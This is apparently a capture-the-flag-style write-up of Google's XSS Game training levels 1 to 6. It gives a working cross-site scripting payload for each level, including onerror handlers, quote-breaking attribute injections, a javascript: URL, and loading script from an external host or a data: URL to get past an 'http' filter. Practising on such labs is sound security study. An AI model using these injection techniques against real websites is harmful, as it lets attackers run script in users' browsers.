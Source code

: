 # XSS Game

## level 1

`<script>alert("xss")</script>`

## level 2

`<img src="1" onerror="alert('xss')" >`

The hint said that use onerror, so use `<img>`

## level 3

We can see from the source code,

```
var html = "Image " + parseInt(num) + "<br>";
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

It use the `<img>`. So we can use `'`to close `src='/xx/xx/xx` and use `//`to make the rest useless.

`https://xss-game.appspot.com/level3/frame#' onerror='alert("xss")';//`

## level 4

```html
 <form action="" method="GET">
    <input id="timer" name="timer" value="3">
    <input id="button" type="submit" value="Create timer"> </form>
</form>
```

```
function startTimer(seconds) {
	seconds = parseInt(seconds) || 3;
    setTimeout(function() {
        window.confirm("Time is up!");
        window.history.back();
    }, seconds * 1000);
}
```

`img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />`

`3'+alert());//`

Here actually we use `'`to close `'{{`, because there is `stratTime()`, it will try to calculate it as `3+f(x)`, so the `alert()`will be executed.

## level 5

`setTimeout(function() { window.location = '{{ next }}'; }, 5000);`

Here is `{{}}`, can execute code in it.
So type in `javascript:alert("xss")`at Enter email bar.

## level 6

The mission 
> Find a way to make the application request an external file which will cause it to execute an alert().

```javascript
      // This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```

But `http` can't be here.

Sometimes we will use `src="//xxx.com`, so do here.
And we can alse use `HTTP`

Here we now the original url is `https://xss-game.appspot.com/level6/frame/#`
and the gadget.js can be loaded.

So `https://xss-game.appspot.com/level6/frame#HTTPS://www.google.com/jsapi?callback=alert`
`https://xss-game.appspot.com/level6/frame/#//www.google.com/jsapi?callback=alert`
Are both are ok.

Plus
Data URLs, URLs prefixed with the data: scheme, allow content creators to embed small files inline in documents.

Data URLs are composed of four parts: a prefix (data:), a MIME type indicating the type of data, an optional base64 token if non-textual, and the data itself: `data:[<mediatype>][;base64],<data>`
The mediatype is a MIME type string, such as 'image/jpeg' for a JPEG image file. If omitted, defaults to text/plain;charset=US-ASCII

Usually, we can use `data:text/html,<script>alert('xss');</script>`
But here it's no need, we just have to contain a file with the js code `alert()` inside, so do as below:
`https://xss-game.appspot.com/level6/frame/#data:text/plain,alert('xss')`
